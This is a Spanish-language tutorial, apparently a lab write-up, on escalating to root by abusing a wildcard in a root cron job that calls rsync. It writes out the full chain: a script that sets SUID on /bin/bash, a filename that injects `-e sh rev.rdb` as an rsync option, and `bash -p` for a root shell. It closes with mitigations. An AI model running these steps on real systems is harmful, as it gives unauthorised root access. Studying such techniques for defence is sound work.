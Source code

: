 # Escalada de Privilegios – Abuso de Wildcards en `rsync`

### Descripción

El abuso de **wildcards** (`*`) en scripts que son ejecutados por **root** puede dar lugar a una escalada de privilegios si se combinan con herramientas inseguras como `rsync`.
Cuando un cron ejecuta `rsync` con patrones como `*.rdb`, un atacante puede **inyectar opciones maliciosas** para que se ejecuten comandos arbitrarios con privilegios elevados.

---

### Escenario

En este caso tenemos un **script ejecutado como root** mediante cron:

```bash
cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
rsync -a *.rdb rsync://backup:873/src/rdb/
cd / && rm -rf /var/www/html/*
rsync -a rsync://backup:873/src/backup/ /var/www/html/
chown www-data. /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
```

Puntos a destacar:

* El uso de `*.rdb` expande a **todos los archivos con esa extensión**.
* Si se manipula el nombre de los ficheros, podemos inyectar parámetros adicionales a `rsync`.
* El cron ejecuta este proceso como **root**, lo que nos da una vía de escalada.

---

### Explotación

1. Creamos un archivo malicioso con contenido que nos dé acceso como root:

```bash
cat <<EOF > rev.rdb
#!/bin/bash
chmod u+s /bin/bash
EOF
```

2. Le damos permisos de ejecución:

```bash
chmod +x rev.rdb
```

3. Creamos un archivo cuyo nombre sea interpretado como opción por `rsync`.
   En este caso, `-e sh rev.rdb` hará que `rsync` ejecute nuestro script:

```bash
touch -- '-e sh rev.rdb'
```

---

### ¿Qué ocurre?

* Cuando se ejecute el cron, el wildcard `*.rdb` se expandirá a:

  ```
  -e sh rev.rdb
  rev.rdb
  ```
* `rsync` interpretará `-e` como opción, y usará `sh rev.rdb` como comando remoto a ejecutar.
* Esto lanzará nuestro script `rev.rdb` con privilegios **root**.

---

### Post-Explotación

Tras la ejecución, `rev.rdb` ha marcado `/bin/bash` como **SUID root**:

```bash
ls -l /bin/bash
-rwsr-xr-x 1 root root 123456 sep  9 10:00 /bin/bash
```

Ahora podemos escalar privilegios fácilmente:

```bash
bash -p
```

---

### Mitigación

* Evitar el uso de **wildcards en scripts privilegiados**.
* Usar rutas absolutas y listas blancas de ficheros.
* Revisar permisos en cron jobs y tareas automáticas.
* Restringir opciones de `rsync` y no permitir que se ejecute con parámetros dinámicos no controlados.